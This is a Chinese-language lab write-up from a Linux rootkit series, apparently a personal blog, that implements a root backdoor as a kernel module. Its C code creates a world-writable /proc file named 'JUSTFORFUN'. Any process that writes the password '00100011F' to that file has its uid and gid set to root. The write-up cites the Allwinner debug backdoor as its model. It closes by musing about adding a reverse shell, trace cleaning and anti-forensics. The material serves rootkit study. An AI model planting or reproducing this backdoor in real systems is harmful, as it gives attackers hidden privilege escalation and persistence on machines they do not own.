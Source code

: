 ```yaml
---
category: Sec
title: Linux Rootkit 实验 | 00021 Rootkit 基本功能实现xROOT后门
---
```


## Linux Rootkit 实验 | 00021 Rootkit 基本功能实现xROOT后门

### 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“提供 root 后门”功能**

### 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

### 实验过程

#### 提供 root 后门

这个后门参考之前很火的“全志科技”使用的代码。

简单来说，是这样：我们在`/proc`下创建一个文件，任何进程往其中写入特定的口令，我们就把它提升为`root`权限（把`uid`和`euid`等设为`0`）。

**这个文件可以用本系列后面的“隐藏文件”实验的方法隐藏掉。**

使用到的 API 是`proc_create`和`proc_remove`：

{% highlight c %}
// include/linux/proc_fs.h
// 参数分别是：文件名/访问模式/父目录/文件操作函数结构体
static inline struct proc_dir_entry *proc_create(
	const char *name, umode_t mode, struct proc_dir_entry *parent,
	const struct file_operations *proc_fops)
{
	return proc_create_data(name, mode, parent, proc_fops, NULL);
}
// fs/proc/generic.c
void proc_remove(struct proc_dir_entry *de)
{
	if (de)
		remove_proc_subtree(de->name, de->parent);
}
{% endhighlight %}

我们跟进看一下`struct file_operations`：

{% highlight c %}
// include/linux/fs.h
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
	ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
	int (*iterate) (struct file *, struct dir_context *);
	int (*iterate_shared) (struct file *, struct dir_context *);
	unsigned int (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
	int (*setlease)(struct file *, long, struct file_lock **, void **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
			  loff_t len);
	void (*show_fdinfo)(struct seq_file *m, struct file *f);
#ifndef CONFIG_MMU
	unsigned (*mmap_capabilities)(struct file *);
#endif
	ssize_t (*copy_file_range)(struct file *, loff_t, struct file *,
			loff_t, size_t, unsigned int);
	int (*clone_file_range)(struct file *, loff_t, struct file *, loff_t,
			u64);
	ssize_t (*dedupe_file_range)(struct file *, u64, u64, struct file *,
			u64);
};
{% endhighlight %}

其中是各种函数指针。我们目前只用到写操作处理函数：

{% highlight c %}
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
{% endhighlight %}

**下面开始行动！**

{% highlight c %}
// 声明写处理函数并放入结构体
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp);

struct file_operations proc_fops = {
    .write = write_handler
};

// 定义写处理函数
#define AUTH "00100011F"
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp)
{
    char *kbuff;
    struct cred* cred;

    // 分配内存。
    kbuff = kmalloc(count + 1, GFP_KERNEL);
    if (!kbuff) {
        return -ENOMEM;
    }

    // 复制到内核缓冲区。
    if (copy_from_user(kbuff, buff, count)) {
        kfree(kbuff);
        return -EFAULT;
    }
    kbuff[count] = (char)0;

    if (strlen(kbuff) == strlen(AUTH) &&
        strncmp(AUTH, kbuff, count) == 0) {

        // 用户进程写入的内容是我们的口令或者密码，
        // 把进程的 ``uid`` 与 ``gid`` 等等
        // 都设置成 ``root`` 账号的，将其提权到 ``root``。
        printk("%s\n", "Comrade, I will help you.");
        cred = (struct cred *)__task_cred(current);
        cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
        cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
        printk("%s\n", "See you!");
    } else {
        // 密码错误，拒绝提权。
        printk("Alien, get out of here: %s.\n", kbuff);
    }

    kfree(kbuff);
    return count;
}
{% endhighlight %}

最后，添加全局变量`struct proc_dir_entry *entry`，并分别在入口函数/出口函数中创建/删除我们的文件：

{% highlight c %}
#define NAME "JUSTFORFUN"
struct proc_dir_entry *entry;
// in init
entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);
// in exit
proc_remove(entry);
{% endhighlight %}

测试结果如下：

![]({{ site.url }}/resources/pictures/linux-rkt-8.png)

### 实验总结与思考

- 内核中的事情，真的是要细心。顺着 FreeBuf 的文章往下看时，`kbuff = kmalloc(count, GFP_KERNEL);`这个地方少分配了一个尾零。事实上应该是`kbuff = kmalloc(count + 1, GFP_KERNEL);`

- 另外注意：

是

![]({{ site.url }}/resources/pictures/linux-rkt-7-err3.png)

而不是

![]({{ site.url }}/resources/pictures/linux-rkt-7-err4.png)

- 个人以为 rootkit 应该提供一个能够远程连接的 root shell（对于内网的机器，用 reverse shell 是不是更好），并具备痕迹清理、自我删除甚至更强的反取证功能（另外，是否需要隐藏当前登录用户？）

### 参考资料

**已参考**

- [allwinner-zh/linux-3.4-sunxi](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41)

**拓展阅读**

- [This is what a root debug backdoor in a Linux kernel looks like](http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/)